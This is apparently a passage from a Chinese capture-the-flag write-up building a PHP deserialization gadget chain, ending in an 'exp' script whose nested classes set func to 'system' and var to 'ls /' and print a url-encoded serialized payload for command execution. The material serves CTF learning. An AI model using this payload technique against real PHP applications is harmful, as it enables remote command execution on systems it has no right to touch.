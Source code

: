 ```php
$a->name = new Then();
$a->name->func = new Super();
$a->name->func->obj = new Handle();
$a->name->func->obj->obj = new CTF();
$a->name->func->obj->obj->handle = new WhiteGod();
echo(urlencode(serialize($a)));
```

为什么会报错，因为有的类里面含有private和protected属性的变量，改用construct为最佳

exp：（correct）

```php
<?php

class Begin{
    public $name;
    public function __construct(){
        $this->name = new Then();
    }
}

class Then{
    private $func;
    public function __construct(){
        $this->func = new Super();
    }
}

class Handle{
    protected $obj;
    public function __construct(){
        $this->obj = new CTF();
    }
}

class Super{
    protected $obj;
    public function __construct(){
        $this->obj = new Handle();
    }
}

class CTF{
    public $handle;
    public function __construct(){
        $this->handle = new WhiteGod();
    }
}

class WhiteGod{
    public $func;
    public $var;
    public function __construct(){
        $this->func = 'system';
        $this->var = 'ls /';
    }
}
$a = new Begin();
echo(urlencode(serialize($a)));
```
